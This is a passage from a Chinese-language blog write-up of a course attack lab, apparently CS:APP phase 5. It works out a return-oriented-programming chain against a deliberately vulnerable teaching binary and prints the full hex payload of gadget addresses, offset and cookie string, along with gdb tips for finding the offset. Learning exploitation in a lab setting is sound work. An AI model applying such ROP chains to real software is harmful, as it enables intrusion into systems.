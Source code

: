 要知道, mov是将一个寄存器的值直接赋值给另一个寄存器的, 而在本次实验中, stack是随机化的, 我们不可能固定 string 字符串的内存位置, **所以可以使用相对偏移量来做**, 我们能确定的是getbuf函数返回后, $rsp的位置. 那么有:
$$
cookie\_value\_address = $rsp + offset
$$
应该注意到, $rdi一定会在最后被赋值一次, 因为rdi才是函数调用的第一个参数. 那如果去构造上面这个公式呢? 这就又需要逆向思维了?

谁能修改 rdi? –> rax可以.

谁能修该 rax? –> rsp 和 pop指令

rax可以修改谁? --> 可以修改rdi, edx

edx可以修改谁? -->  可以修改ecx

ecx可以修改谁? --> 可以修改esi

再结合前文的lea指令

```asm
lea    (%rdi,%rsi,1),%rax
```

rax = rdi + rsi

这样, 所有的条件都凑齐了.

画个示意图:

![image-20200721100554201](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200721100554201.png)

于是可以有攻击代码:

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 前0x28个字符填充0x00 */
06 1a 40 00 00 00 00 00 /* mov $rsp,$rax */
c5 19 40 00 00 00 00 00 /* mov $rax,$rdi */
ab 19 40 00 00 00 00 00 /* pop $rax */
48 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* movl $eax,$edx */
34 1a 40 00 00 00 00 00 /* movl $edx,$ecx */
63 1a 40 00 00 00 00 00 /* movl $ecx,$esi */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00 /* mov $rax,$rdi */
fa 18 40 00 00 00 00 00 /* touch3 地址 */
35 39 62 39 39 37 66 61 00 /* cookie value */
```

一个小tip: offset不用手算, 最先可以随便设置一个值,gdb debug到进入到我们的注入代码时候, 执行:

```asm
x /100xb $rsp
```

就可以看到cooike value所在的内存地址, 然后 用这个地址 - $rsp即可得到offset, 最后再修改一次攻击代码即可.

## 6. 尾语

这一个实验和上一个bomlab实验隔了整整一个月才做, 不过整体坐下来比bomblab简单得多, 总体来说, 加强了gdb调试能力, 加深对函数调用的过程, 了解了一些常用的代码注入攻击手段, 能够帮助我们写出更安全,健壮的代码.